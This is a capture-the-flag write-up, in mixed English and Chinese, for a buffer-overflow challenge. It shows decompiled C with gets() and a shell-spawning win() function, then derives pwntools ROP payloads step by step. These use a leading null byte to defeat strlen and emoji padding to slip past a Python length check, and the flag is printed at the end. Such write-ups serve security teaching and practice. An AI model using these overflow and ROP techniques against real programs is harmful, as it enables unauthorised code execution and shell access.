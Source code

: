 # 1.0 Challenge
1. strlen -> /x00 to stop the checking
2. python wrapper only 0xff -> can use emoji in python on 1 length, but for c is 4 bytes

# 2.0 Analysis
this is a beginner and advanced challenge for me 
the source code very simple 
I even though I can finish it very fast but NOT 
this is trap shit 

```c
int main(void)
{
  size_t input_len;
  char buffer [259];
  char local_15;
  int input_len_2;
  ulong i;
  
  gets(buffer);
  input_len = strlen(buffer);
  input_len_2 = (int)input_len;
  for (i = 0; i < (ulong)(long)(input_len_2 / 2); i = i + 1) {
    local_15 = buffer[(long)(input_len_2 + -1) - i];
    buffer[(long)(input_len_2 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
python wrapper
```python
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```

needed ROP
```
ret = 0x000000000040101a
win = 0x0000000000401262
```

# 3.0 Solution
## 3.1 OFFSET
ok 我们第一个要想的问题是 offset 
![[Pasted image 20250714170240.png]]
我一开始以为是直接0x110+8 + win 然后发现不work ？？？？？
0x118 = 280

如果不成功马上 请想起来 有ret alignment !!!!!
so 280 + ret + win
然后还是不能 .... 

## 3.2 STRLEN
这个时候想一下 为什么他没有直接断掉
so 要add \x00 null terminator
可是也要算好整个offset 
`[\x00 + offset] 这边只能是280 + ret 8 + win 8`
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += b"a"*(offset)
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

OK local pass

## 3.3 len(payload) > FF
看python 只能ff 如果直接pass 一定超过 因为我的整个payload 288 + 8
所以直接把offset 改成 unicode 就不会被 python check 
😎 python len: 1 c strlen: 4
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += "😃".encode()* ((offset)//4)
binary += b'aaa' # for alignment 
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```


# 4.0 FLAG 
```
L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}
```